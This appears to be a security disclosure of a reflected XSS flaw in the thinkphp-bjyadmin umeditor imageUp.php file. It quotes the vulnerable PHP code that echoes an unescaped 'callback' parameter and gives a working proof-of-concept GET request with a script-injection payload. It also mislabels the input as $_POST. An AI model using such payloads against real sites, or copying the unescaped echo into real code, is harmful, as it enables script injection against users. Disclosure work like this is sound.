


A xss vulnerability in bjyadmin-latest(commit a560fd5).

The path of the vulnerability.

In file https://github.com/baijunyao/thinkphp-bjyadmin/blob/master/Public/statics/umeditor1_2_3/php/imageUp.php

```php
...
$callback=$_GET['callback'];		// Line 19
...
if($callback) {
    echo '<script>'.$callback.'('.json_encode($info).')</script>';	//Line 26
}
```


We see that there is no check between the input  $_POST["callback"] and the output(Line 26)

Thus the XSS will happen at `echo '<script>'.$callback.'('.json_encode($info).')</script>';`

Poc:

GET /Public/statics/umeditor1_2_3/php/imageUp.php?callback=%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3C%22

Manual verification:





The developers were informed of the report in here : https://github.com/baijunyao/laravel-restful/issues/3